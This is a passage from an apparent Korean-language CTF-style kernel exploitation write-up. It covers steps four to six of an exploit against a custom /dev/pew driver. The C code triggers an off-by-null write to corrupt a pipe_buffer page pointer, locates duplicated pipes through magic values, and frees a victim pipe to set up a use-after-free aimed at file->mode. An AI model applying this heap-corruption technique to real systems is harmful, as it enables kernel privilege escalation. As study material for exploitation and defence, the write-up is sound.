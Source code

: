 4. **Off-by-Null 취약점 트리거**
    - `/dev/pew`의 ioctl을 호출하여 버퍼 끝을 넘어 pipe_buffer의 첫 필드(`page`)를 `0x00`으로 덮어씁니다.
        
        ```c
        // 5. /dev/pew를 이용하여 Off-by-Null 취약점 트리거
        /* 
        * /dev/pew를 이용하여 Off-by-Null 취약점을 트리거
        * 내부 버퍼의 끝(인덱스 MAX_BUF)에 0x00을 씀
        */
        printf("[*] Triggering Off-by-Null via /dev/pew...\n");
        fd = open("/dev/pew", O_RDONLY);
        setVal(fd, 0x00);  // 0x00이든 0xc0든 상관없음. 0x?0 형태면 왠만하면 상관없을듯?
        setOff(fd, 0x1000);
        setChar(fd);
        ```
        
5. **중복된 pipe_buffer 찾기**
    - 각 파이프에서 데이터를 읽어보고, 원본 magic 값과 다른 값을 가지는 파이프를 찾아 중복 파이프(`victim`, `prev`)를 식별합니다.
        
        ```c
        // 6. 오염된(덮어쓴) 파이프를 탐색하여 중복 파이프(dup pipe)를 찾는다.
        size_t victim_idx = 0, prev_idx = 0, magic = 0;
        void *tmp_content = malloc(0x1000);
        for (int i = 0; i < PIPE_NUM; i++) {
            // hole이 아닌 파이프만 확인
            if (i % 0x10) {
                read(pipe_fd[i][0], tmp_content, 8);
                read(pipe_fd[i][0], &magic, 8);
                // 식별 문자열은 동일해야 하며, magic 값이 원래와 달라졌다면 오염된 것으로 판단
                if (magic != (0xdeadbeef + i) && (memcmp(tmp_content, "KEYME!!!", 8) == 0)) {
                    victim_idx = magic - 0xdeadbeef;
                    prev_idx = i;
                    if (victim_idx >= PIPE_NUM)
                        errExit("Could not find corrupted (dup) pipe.");
                    printf("[*] Found dup pipes: victim=%lu, prev=%lu\n", victim_idx, prev_idx);
                    break;
                }
            }
        }
        if (victim_idx == 0 || prev_idx == 0)
            errExit("Could not find corrupted (dup) pipe.");
        ```
        
6. **UAF 상태 만들기**
    - 두 파이프 중 하나(`victim`)를 닫아, 참조하던 페이지를 free하여 UAF를 발생시킵니다.
        
        ```c
        // 7. prev_idx 파이프에 데이터를 써서, 오염된 영역(예: file 구조체의 mode 필드)을 조작
        write(pipe_fd[prev_idx][1], tmp_content, 0x14); // file->mode의 오프셋이 0x14이므로 0x14 바이트만큼 먼저 써서 다음번 쓰기에 file->mode에 쓸 수 있도록 함
        
        // 8. victim 파이프를 닫아 UAF 상태 유도
        printf("[*] Freeing victim pipe's page for UAF...\n");
        close(pipe_fd[victim_idx][0]);
        close(pipe_fd[victim_idx][1]);
        sleep(1);
        ```
        